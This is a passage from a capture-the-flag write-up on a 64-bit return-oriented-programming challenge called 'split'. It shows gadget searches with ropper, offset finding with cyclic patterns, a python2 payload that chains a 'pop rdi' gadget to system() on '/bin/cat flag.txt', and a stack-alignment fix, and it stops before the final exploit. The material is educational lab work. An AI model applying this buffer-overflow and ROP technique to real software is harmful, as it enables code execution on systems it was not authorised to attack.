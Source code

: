 ```bash
pwndbg> search -t string "/bin/cat flag.txt"
Searching for string: b'/bin/cat flag.txt\x00'
split           0x601060 '/bin/cat flag.txt'
```

Now, since this is 64 bit, we need a `pop rdi` gadget. There are several tools we can use, I like to user `ropper`.

```bash
└─$ ropper --file split --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret;
```

Finally for the buffer offset, I used the cyclic pattern method again to find the offset to the top of the `rsp` after overflowing it with the pattern similarly to the previous challenge.

```bash
pwndbg> cyclic -l kaaa -n 4
Finding cyclic pattern of 4 bytes: b'kaaa' (hex: 0x6b616161)
Found at offset 40
```

At this point, we have all the ingredients to exploit this binary.

## Exploit

I will write down two exploits for this challenge. One manual and one automated using `pwntools`.

### Manual

```bash
python2 -c 'print "a"*40 + "\xc3\x07\x40\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00" + "\x60\x05\x40\x00\x00\x00\x00\x00"' > payload
```

This make the chain `[40 padding + pop_rdi_gadget + address of /bin/cat flag.txt + address of system]`. This is how it will be in the stack too. You can execute this with GDB to watch it in action.

So running this on my machine doesn't actually work! We run into a segfault due to this problem below.
![alt text](img/iimage-4.png)

The stack is not 16 bytes aligned, which is a requirement for 64 bit calling convention. You can read more about it [here](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment).

We have to realign the stack before we call `system`. To do this we can look for a simple `ret` gadget and insert it just before returning to system to align the stack to 16 bytes.

```bash
└─$ ropper --file split --search "ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: split
0x0000000000400542: ret 0x200a;
0x000000000040053e: ret;
```
